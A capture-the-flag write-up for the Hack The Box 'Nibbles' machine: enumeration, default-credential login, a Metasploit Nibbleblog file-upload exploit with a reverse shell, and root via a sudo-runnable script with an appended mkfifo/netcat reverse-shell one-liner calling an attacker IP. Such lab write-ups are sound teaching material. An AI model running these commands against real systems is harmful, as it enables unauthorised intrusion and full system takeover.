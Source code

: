```yaml
---
title: Nibbles HTB Writeup
author: 0xGamer
date: 2021-01-25 9:16:00 
categories: [Walkthru, Writeup, Hackthebox]
tags: [Nibble]
math: true
mermaid: true
---
```


This post contains the walkthru of the Nibbles box from hackthebox. This box has been suggested as OSCP like.

## We will start with an nmap.

### Nmap

```bash
[★]$ nmap -sC -sV -v 10.10.10.75
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-25 04:20 UTC
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### We see that port 80 (Webpage) and port 22 (SSH) are open.

 #### Lets visit the webpage.

![image-20210125095401157](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles1.png)

#### We see a page with only Hello world! written on it... Lets check the source code

#### ![image-20210125095509153](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles2.png)

### We see a /nibbleblog... Lets visit it 

![image-20210125095624746](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles3.png)

### I checked the stuff but nothing interesting here on those categories and pages. Lets run  gobuster against it.

```bash 
[★]$ gobuster dir -u=10.10.10.75/nibbleblog -w=/usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/25 04:33:04 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/index.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/themes (Status: 301)
===============================================================
2021/01/25 04:34:10 Finished
===============================================================
```

#### Hmm, admin.php is interesting...

![image-20210125100619910](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles4.png)

#### Lets try the common usernames and passwords like, admin:admin or nibbles:nibbles or admin:nibbles or nibbles:admin	

#### We see that the username admin and the password nibbles work...

![image-20210125102016119](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles5.png)

#### We get logged in but there is nothing interesting here

### Lets use searchsploit to look for an exploit on nibbleblogs

```bash
[★]$ searchsploit nibbleblog
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                 | php/remote/38489.rb
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

#### Lets start up msfconsole and use the Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)   exploit.

 ###### We are going to use this command in msfconsole to select the exploit

```bash
use exploit/multi/http/nibbleblog_file_upload
```

##### Now lets use these commands to select the payload and options

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
```

```
msf6 exploit(multi/http/nibbleblog_file_upload) > run
```

### Now you can see that we got shell as nibbler

![image-20210125103315915](https://raw.githubusercontent.com/hackarmour/hackthebox/main/assets/nibbles6.png)

#### Now lets use this command to spawn a bash shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Great now we can cd /home/nibbler and cat the user flag.

#### Lets run sudo -l to check our permissions

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

#### Hmm we can run  monitor.sh... Let unzip the personal folder so we can access the monitor file

```
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ cd personal/stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
monitor.sh

```

#### Lets check the monitor.sh file...

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ head monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

```

#### Lets modify the monitor.sh to get a reverse shell...

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 > /tmp/f" >> monitor.sh
```

#### Now lets listen on port 1234 with netcat on a new terminal

```
[★]$ nc -nvlp 1234
listening on [any] 1234 ...

```

#### Now lets run the monitor.sh file on the box.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
```

#### Now can check the other terminal and we can see we got root.

```
# whoami && id && cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
c8a26e...
```



# Thank you!


